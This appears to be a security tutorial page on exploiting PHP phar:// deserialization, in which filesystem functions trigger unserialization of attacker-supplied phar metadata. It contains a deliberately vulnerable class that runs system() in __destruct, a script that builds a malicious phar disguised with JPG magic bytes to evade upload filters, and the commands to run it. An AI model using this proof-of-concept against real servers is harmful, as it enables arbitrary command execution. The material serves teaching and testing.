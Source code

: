 # phar:// deserialization

**Phar** files \(PHP Archive\) files **contain meta data in serialized format**, so, when parsed, this **metadata** is **deserialized** and you can try to abuse a **deserialization** vulnerability inside the **PHP** code.

The best thing about this characteristic is that this deserialization will occur even using PHP functions that do not eval PHP code like **file\_get\_contents\(\), fopen\(\), file\(\) or file\_exists\(\), md5\_file\(\), filemtime\(\) or filesize\(\)**.

So, imagine a situation where you can make a PHP web get the size of an arbitrary file an arbitrary file using the **`phar://`** protocol, and inside the code you find a **class** similar to the following one:

{% code title="vunl.php" %}
```php
<?php
class AnyClass {
    public $data = null;
    public function __construct($data) {
        $this->data = $data;
    }

    function __destruct() {
        system($this->data);
    }
}

filesize("phar://test.phar"); #The attacker can control this path
```
{% endcode %}

You can create a **phar** file that when loaded will **abuse this class to execute arbitrary command**s with something like:

{% code title="create\_phar.php" %}
```php
<?php

class AnyClass {
    public $data = null;
    public function __construct($data) {
        $this->data = $data;
    }

    function __destruct() {
        system($this->data);
    }
}

// create new Phar
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub("\xff\xd8\xff\n<?php __HALT_COMPILER(); ?>");

// add object of any class as meta data
$object = new AnyClass('whoami');
$phar->setMetadata($object);
$phar->stopBuffering();
```
{% endcode %}

Note how the **magic bytes of JPG** \(`\xff\xd8\xff`\) are added at the beginning of the phar file to **bypass** **possible** file **uploads** **restrictions**.  
**Compile** the `test.phar` file with:

```bash
php --define phar.readonly=0 create_phar.php
```

And execute the `whoami` command abusing the vulnerable code with:

```bash
php vuln.php
```

## References

[https://blog.ripstech.com/2018/new-php-exploitation-technique/](https://blog.ripstech.com/2018/new-php-exploitation-technique/)


